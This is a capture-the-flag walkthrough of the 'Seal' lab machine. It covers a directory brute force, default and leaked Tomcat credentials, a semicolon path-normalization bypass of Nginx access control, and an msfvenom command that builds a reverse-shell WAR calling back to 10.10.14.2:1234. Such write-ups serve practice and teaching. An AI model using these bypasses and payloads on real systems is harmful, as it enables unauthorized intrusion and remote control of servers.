




MACHINE SEAL WALKTHROUGH

Enumeration:

Nmap scan:

Nmap scan shows there are 3 ports open. Lets go and browse the ip given to see what we can found:

lets do a brute force attack with gobuster to see what we can find:

command: gobuster dir -u https://10.129.95.190 -w /usr/share/seclists/Discovery/Web-Content/common.txt

But the problem is that when we try accesing any of this directories we get a 403 forbidden error. lets go to the port 8080 to see if we can access that page.

there are to way to pass the login page. One is creating an account and the other one is using the default credentials that are root/root.

once we enter we see there is a repository called seal_market and we can see that there is where it lives the source code for the seal market page.

if we navigate and look for information we can see that in an old commit there was credendiantls for a user called tomcat in the path tomcat/tomcat-users.xml:

lets try to access the /admin/dashboard/ by putting /admin;nothing/dashboard/

It is also mentioned in the ToDo tasks that the latest tomcat configuration is yet to be deployed. Having this information we can now look for ways with which we can bypass the client authentication and login tomcat manager interface with found credentials. The most common misconfiguration of Nginx is path normalization. We know if we use ; while puting a path everything after that is not going to be consider for apache tomcat but nginx does not know that.

Great we were able to access the admin dashboard now lets try to upload a payload using the same misconfiguration but now in the manager page.

we can upload a war file and gain shell on the server. Generate a shell.war file by issuing below command.

command: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -f war > shell.war

we have to use burpsuite in order to be able to upload the payload:

now if we set up the listener and execute the payload by just clicking on it in the manager page we should get a shell like in the picture below:

great we got a shell now you can continue on your own. :)

